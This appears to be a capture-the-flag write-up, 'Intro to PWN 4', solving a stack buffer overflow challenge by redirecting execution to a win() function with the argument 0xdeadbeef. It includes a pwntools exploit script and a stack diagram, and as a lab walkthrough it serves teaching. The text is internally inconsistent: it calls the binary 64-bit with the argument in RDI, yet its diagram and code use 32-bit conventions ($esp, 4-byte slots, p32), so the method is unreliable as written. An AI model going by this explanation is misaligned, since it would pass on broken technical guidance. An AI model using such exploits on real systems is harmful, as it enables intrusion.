





## Intro to PWN 4

Start by running checksec on the binary.



We have a 64 bit binary.  NX is enabled but PIE is not.  Once again we can put static addresses into our exploit.  We don't have source code this time.  View the decompilation in ghidra.





Same concept as Intro to PWN 3 except we are dealing with x64.  Argument 1 is passed in through register RDI.  Lets take a look at the assembly and see how we can write to RDI.



It looks like the bottom of the stack buffer is moved into RDI.  This is how we can pass in our first argument to the win function.

This time we need to skip 36 bytes and append the address of win() in little endian.  Then we need to place 0xdeadbeef into the first argument.  This will be the next address on the stack.  However, when the win function is called, a new return address will be place on the stack and the stack pointer will move down 4 bytes.  Here is a visual representation of the stack after the buffer is placed and when win() is called.

```
________________buffer overflow_________________        ________________win() function________________
          |------------|                                          |------------|
$esp + 44 | 0xdeadbeef | Argument 1                     $esp + 12 | 0xdeadbeef | Argument 1
$esp + 40 | 0x42424242 | skip 4 bytes                   $esp + 8  |  ret addr  | next address in main
$esp + 36 |    win()   | address of win function        $esp + 4  |    ebp     | frame pointer
$esp + 32 | 0x41414141 | buffer (ebp)                   $esp      |   unused   | first stack variable
               ...                                                |------------|
$esp      | 0x41414141 | buffer
          |------------|
```

Use objdump to get the address of win().


Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 28949)

payload =  b""
payload += b"A" * 36
payload += p32(binary.sym.win)
payload += b"B" * 4
payload += p32(0xdeadbeef)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.


Complete!